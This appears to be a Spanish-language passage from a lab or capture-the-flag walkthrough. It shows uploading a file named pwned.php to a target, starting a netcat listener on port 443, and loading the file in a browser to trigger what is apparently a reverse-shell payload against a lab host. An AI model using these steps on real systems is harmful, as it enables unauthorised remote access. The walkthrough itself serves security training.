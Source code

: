    `put pwned.php`
    
    ![image.png](./imagenes/image%2054.png)
    
    Salimos con `exit`.
    
- Nos ponemos a la escucha con netcat
    
    ```bash
    nc -nlvp 443 
    ```
    
    ![image.png](./imagenes/image%2055.png)
    

- En el navegador web escribimos [http://10.0.3.21/pwned.php](./imagenes/http://10.0.3.21/pwned.php) para ejecutar el payload.
    
    ![image.png](./imagenes/image%2056.png)
    